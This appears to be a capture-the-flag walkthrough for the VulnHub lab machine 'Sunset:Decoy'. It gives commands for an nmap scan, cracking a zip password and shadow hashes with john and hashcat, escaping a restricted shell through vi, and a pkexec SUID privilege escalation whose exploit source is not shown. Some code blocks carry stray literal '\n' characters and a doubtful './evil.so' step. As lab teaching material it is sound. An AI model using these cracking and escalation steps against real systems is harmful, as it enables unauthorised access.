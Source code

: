 

# Sunset:Decoy Walkthrough

**VulnHub Link:** [Sunset:Decoy](https://www.vulnhub.com/entry/sunset-decoy,505/)
**Difficulty:** Easy  
**Release Date:** 7 Jul 2020

---

## 1. Reconnaissance

### Nmap Scan

nmap -A -O -T4 -P -sV 192.168.100.181



## 2.Enumeration
```bash
wget http://192.168.100.181/save.zip
```
we obtain only file which is save.zip and need to find password to unzip

```bash
zip2john save.zip > zip.hash
```

first , we changed it to hash value

```bash
grep -o '\$pkzip\$.*\/pkzip\$' zip.hash > clean.hash\n
hashcat -m 17225 clean.hash /usr/share/wordlists/rockyou.txt\n
```
then we converted it to a form that hashcat cat crack it 

and boom -->

unzip save.zip (password manuel)

```bash
unshadow passwd shadow > crackable.hash
john --wordlist=/usr/share/wordlists/fasttrack.txt crackable.hash 
```

(password found) server which user is = 296640a3b825115a47b68fc44501c828

```bash
ssh 296640a3b825115a47b68fc44501c828@192.168.100.181
```

now , we have rbash which is restricted bash to prevent commands 

```bash
honeypot.decoy
7
:set shell=/bin/bash
:set
:shell
```

we did it but not finished yet

```bash
export PATH=/bin/:/usr/bin:/usr/local/bin:$PATH
```

and booom --> we excaped from rbash and user flag capturee

## 3.Privilege Escalation

```bash
find / -perm /4000 2>/dev/null
```

observe that pkexec vuln exist

we need two exploit script which you can download from both exploit-db and my github account

```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./evil.so
./exploit
```

### BINGO !!! ROOT SESSION OPENED AND FLAG CAPTURED
